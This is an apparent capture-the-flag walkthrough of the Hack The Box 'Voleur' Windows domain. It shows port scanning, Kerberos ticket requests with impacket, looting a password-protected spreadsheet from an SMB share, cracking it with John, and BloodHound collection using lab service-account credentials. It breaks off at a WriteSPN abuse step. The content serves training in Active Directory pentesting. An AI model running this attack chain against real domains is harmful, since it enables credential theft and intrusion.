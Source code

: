 
![](Voleur_Cover.png)




```
Machine Information

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt
```


```
└─# nmap 10.10.11.76

Nmap scan report for voleur.htb (10.10.11.76)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2222/tcp open  EtherNetIP-1
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


```
┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# nxc smb 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt
SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.76     445    10.10.11.76      [-] 10.10.11.76\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED
```




## USER_ACCESS 

Cool ! NTLM Disabled --> Kerberos Authentication!



```
└─# impacket-getTGT voleur.htb/ryan.naylor:HollowOct31Nyt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in ryan.naylor.ccache


┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# export KRB5CCNAME=ryan.naylor.ccache
```


![](Voleur_1.png)




GOT , Excel file on IT Share , Juicy ?? 

```
└─# impacket-smbclient voleur.htb/ryan.naylor@DC.voleur.htb -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 First-Line Support
# cd First-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-      16896  Thu May 29 18:23:36 2025 Access_Review.xlsx
# get Access_Review.xlsx

```


But Its Password Protected, alot of ways , Online Crack , Or John!

```
└─# john --show crack_  
Access_Review.xlsx:football1
```


![](might_del_later.png)


Cool ! We Got Access of Services Accounts. Boom ! Running Bloodhound.....


~~~
Get the Keys / Cache files locked !
└─# impacket-getTGT voleur.htb/svc_ldap:M1XyC9pW7qT5Vn                 

[*] Saving ticket in svc_ldap.ccache

┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# export KRB5CCNAME=svc_ldap.ccache 


Running Blood-HOund with nxc .

└─# nxc ldap DC.voleur.htb -k -u svc_ldap -p M1XyC9pW7qT5Vn --bloodhound --collection All
Compressing output into /root/.nxc/logs/DC_DC.voleur.htb_2025-08-09_233558_bloodhound.zip
~~~




![](Voleur_blood.png)


Cool ! We got alot power ,  but first lets loginto the box,

SVC_LDAP --> SVC_WINRM [WRITE_SPN](https://bloodhound.specterops.io/resources/edges/write-spn)


Overwrite the SPN -> 



![](Vole_targeted_.png)